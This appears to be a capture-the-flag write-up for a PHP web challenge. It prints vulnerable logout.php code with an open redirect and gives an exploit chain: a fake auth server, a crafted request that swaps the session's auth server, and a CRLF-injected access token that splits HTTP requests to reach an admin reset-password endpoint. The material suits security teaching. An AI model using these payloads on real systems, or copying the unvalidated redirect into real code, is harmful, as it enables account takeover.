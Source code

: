 # Exploit

This exploit requires a server with external access.

<strong> 1. Change the following three values in your exploit.py file </strong>  

```
TARGET_URI = "http://{{BASE_HOST}}"
HOST = "{{BIND_IP}}"
PORT = {{BIND_PORT}}
```

<strong> 2. run `exploit.py` </strong> 

# Vulnerability

An open redirection attack exists in logout.php via the `return_uri` parameter. 
This vulnerability allows users to bypass validation of the authentication server address.

```php
<?php
    include_once("config.php");
    include_once("auth_service.php");
    session_start();
    request_logout($_SESSION["auth_server"], $CLIENT_ID, $_SESSION["access_token"], $_SESSION["refresh_token"]);

    $_SESSION["username"] = null; 
    $_SESSION["auth_server"] = null;
    $_SESSION["access_token"] = null;
    $_SESSION["refresh_token"] = null;

    $return_uri = $_GET["return_uri"];
    if($return_uri == null)
        $return_uri = $_SERVER["HTTP_REFERER"];
    header("Location: " . $return_uri);
?>
```



# How exploit works

<strong>1. Setup a fake auth server for the below request</strong>

(See the web.py file for details)<br />
`172.28.176.1 - - [05/Jul/2023 20:33:50] "GET /realms/sctf/protocol/openid-connect/token HTTP/1.1" 200 -` <br />
`172.28.176.1 - - [05/Jul/2023 20:33:52] "GET /realms/sctf/protocol/openid-connect/userinfo HTTP/1.1" 200 -`
<br />
<br />
<br />

<strong>2. The below HTTP request will change `$_SESSION['auth_server']` in login.php</strong>

> Open redirection in logout.php

```
GET /login.php?auth_server=http://{TARGET_URI}/sso/../logout.php%3freturn_uri={FAKE_AUTHSERVER} HTTP/1.1
Host: {TARGET_URI}
Cookie: PHPSESSID=hhvtcnmihl1rjb018nl2ne5bj6

```

<br />
<br />

<strong>3. The web server gets a token from the fake auth_server, which contains a value that manipulates HTTP headers. </strong>


> `state` should be matched with the above reponse.

```
GET /callback.php?code=a&state={state} HTTP/1.1
Host: {TARGET_URI}
Cookie: PHPSESSID=hhvtcnmihl1rjb018nl2ne5bj6

```

<br />
<br />

<strong>4. In index.php, make sure your username is 'admin' and access the admin page. </strong>

<br />
<br />

<strong>5. On the admin page, click the Reset password link.</strong>

The "\r\n" in the access token splits the HTTP header into two because of the below code. 

```php
    $headers[] = "Authorization: Bearer " . $access_token;
```

```
{"access_token": f"aa\r\n\r\n\r\nPOST /orders.php HTTP/1.0\r\nHost: {TARGET_URI}\r\nContent-Type: multipart/form-data; boundary=----\r\nContent-Length: {LENGTH}\r\nCookie: PHPSESSID={PHPSESSION}\r\n\r\n------\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\n"}
```

- The HTTP request is split like below

```
PUT /sso/admin/realms/sctf/users/f7f10810-87bd-4399-949b-89b87951044a/reset-password HTTP/1.1
Host: {TARGET_URI}
Accept: */*
Authorization: Bearer aa


POST /orders.php HTTP/1.0
Host: {TARGET_URI}
Content-Type: multipart/form-data; boundary=----
Content-Length: {LENGTH}
Cookie: PHPSESSID={PHPSESSION}

------
Content-Disposition: form-data; name=\"name\"

type=password&temporary=0&value=sctf%7bfake_flag%7d
```

<br />
<br />

<strong>6. Find the flag in `/orders.php`</strong>
